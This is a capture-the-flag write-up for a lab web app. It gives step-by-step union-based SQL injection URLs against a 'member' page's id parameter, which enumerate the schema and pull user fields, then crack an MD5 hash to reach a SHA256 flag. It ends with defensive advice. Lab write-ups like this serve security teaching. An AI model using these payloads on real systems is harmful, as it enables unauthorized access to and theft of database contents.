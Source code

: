 # Flag Documentation: SQL Injection Flag

## Challenge Overview
This challenge involves exploiting a SQL Injection vulnerability in a web application to retrieve sensitive information from the database and uncover a hidden flag.

## Tools Needed
- [MD5 Decrypt](https://md5decrypt.net/)

## Steps to Solve

1. **Test for Vulnerability**:
   - Start by testing if the `id` parameter is vulnerable to SQL Injection. Modify the `id` parameter to:
     ```
     http://10.14.59.254/?page=member&id=5+OR+1=1+--+&Submit=Submit#
     ```
   - If the page behaves differently, it confirms the presence of a SQL Injection vulnerability.

2. **Find Columns**:
   - Next, determine the number of columns in the query using the following payload:
     ```
     http://10.14.59.254/?page=member&id=5+UNION+SELECT+NULL,NULL+--+&Submit=Submit#
     ```
   - Adjust the number of `NULL` values if needed, until the page loads correctly. This will help you find the correct number of columns.

3. **Explore Schema**:
   - Once the columns are identified, explore the database schema to retrieve information about the tables and columns. Use the following query:
     ```
     http://10.14.59.254/?page=member&id=5+UNION+SELECT+table_name,column_name+FROM+information_schema.columns+--+&Submit=Submit#
     ```

4. **Focus on the Users Table**:
   - To narrow down the search, focus on the `users` table and retrieve its column names by using:
     ```
     http://10.14.59.254/?page=member&id=5+UNION+SELECT+table_name,column_name+FROM+information_schema.columns+WHERE+table_name='users'+--+&Submit=Submit#
     ```

5. **Retrieve Data**:
   - Now, use the information from the previous steps to retrieve user data. To extract sensitive data for the user with `user_id=5`, use:
     ```
     http://10.14.59.254/?page=member&id=5+UNION+SELECT+NULL,CONCAT(first_name,last_name,town,country,planet,Commentaire,countersign)+FROM+users+WHERE+user_id=5+--+&Submit=Submit#
     ```

6. **Decrypt the Flag**:
   - You will encounter the following string:
     ```
     FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
     ```
   - The `5ff9d0165b4f92b14994e5c685cdce28` is an MD5 hash. Use [MD5 Decrypt](https://md5decrypt.net/) to decrypt it to get `FortyTwo`.
   - Convert `FortyTwo` to lowercase: `fortytwo`.
   - Finally, encrypt `fortytwo` using SHA256 to get the flag:
     ```
     10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
     ```

## How to Avoid This Breach in a Website

1. **Use Prepared Statements**: Always use prepared statements with parameterized queries to prevent SQL injection vulnerabilities.
2. **Input Validation**: Validate and sanitize all user inputs to ensure that malicious SQL commands are not accepted.
3. **Limit Database Permissions**: Apply the principle of least privilege to database users, ensuring they can only perform the necessary actions.
4. **Use Web Application Firewalls (WAFs)**: Implement a WAF to detect and block SQL injection attempts.
5. **Conduct Regular Security Testing**: Regularly perform security audits, penetration testing, and code reviews to identify and fix potential SQL injection vulnerabilities.
